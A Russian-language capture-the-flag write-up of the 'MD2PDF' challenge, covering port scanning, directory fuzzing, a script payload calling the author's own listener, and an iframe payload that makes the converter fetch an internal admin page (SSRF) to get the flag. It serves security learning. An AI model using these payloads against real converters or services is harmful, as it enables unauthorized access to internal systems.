


# Writeup: MD2PDF

> TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.
This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

Для начала проверим открытые порты через nmap
```sh
nmap -sS -sV -p- 10.114.140.159
```
В результате мы видим 3 порта
```sh
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http
5000/tcp open  upnp?
```
на 10.114.140.159:80 нам предоставляет ковертер MD->PDF. Попробуем дать нагрузку в формате MD
```sh
# TEST MD
```
Приложение действительно конвертирует MarkDown в PDF. Но что если попробовать дать ему JS и заставить отправить запрос на управляемый нами сервер?  
Для этого на нашем сервере поднимем веб-сервер:
```sh
python3 -m http.server
```
В конвертер даем такую нагрузку:
```js
<script>fetch('http://192.168.160.249:8000')</script>
```
Хм... запрос не прилетает, но это и не удивительно, так как мы пытаемся передать JS. Теперь попробуем передать в формате MD:
```md
[URL](http://192.168.160.249:8000)
```
При формировании документа нам становится доступна ссылка, веб-сервер логирует запросы
  
  
На данный момент нас это ни к чем не приводит, так как мы получаем доступ к своей же машине. 

Если что-то не получается, то, как правило, это означает, что собрано мало данных. По этой причине отправимся на разведку, проверим возможные директории:
```sh
# CyberWarn - мой инструмент для анализа веб-приложений
# git clone https://github.com/rickert155/CyberWarn cd CyberWarn
# python3 -m venv venv && ./venv/bin/pip install -r packages.txt && source venv/bin/activate
python3 -m cyberwarn fuzz-dirs --url=http://10.114.140.159 --wordlist=data/wordlist/web/top-10k-web-directories_from_10M_urlteam_links.txt
 --workers=100
```
По результатам имеем такой результат:
```sh
http://10.114.140.159/. 200

Content-Type: text/html; charset=utf-8
Content-Length: 2660
--------------------------------------------------
http://10.114.140.159/convert 405

Content-Type: text/html; charset=utf-8
Allow: OPTIONS, POST
Content-Length: 178
--------------------------------------------------
http://10.114.140.159/.. 200

Content-Type: text/html; charset=utf-8
Content-Length: 2660
--------------------------------------------------
http://10.114.140.159/admin 403

Content-Type: text/html; charset=utf-8
Content-Length: 166
```
В веб-приложении есть директория *admin*. Попробуем к ней обратиться и посмотреть ответ(статус код нам уже известен, интересует текст ответа)
```sh
curl http://10.114.140.159/admin
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>This page can only be seen internally (localhost:5000)</p>
```
Честно отвечает, что доступен только из localhost, хорошо...  

Стоит попробавать обратиться к localhost:5000/admin через iframe
```md
<iframe src="http://localhost:5000/admin">
```
В конечном итоге ри конвертировании мы обращаемся к */admin* через через iframe в документе PDF и получаем наш флаг!

### Испольуемые инструменты
- [CyberWarn](https://github.com/rickert155/CyberWarn)
- Браузер :)

### Ресуры
- [Hackerdna SSRF](https://hackerdna.com/blog/ssrf)
- [Habr](https://habr.com/ru/companies/pt/articles/842598/)
- [Codeby](https://codeby.net/threads/ssrf-uyazvimost-poisk-ekspluatatsiya-i-tsepochki-atak-v-penteste.93029/)
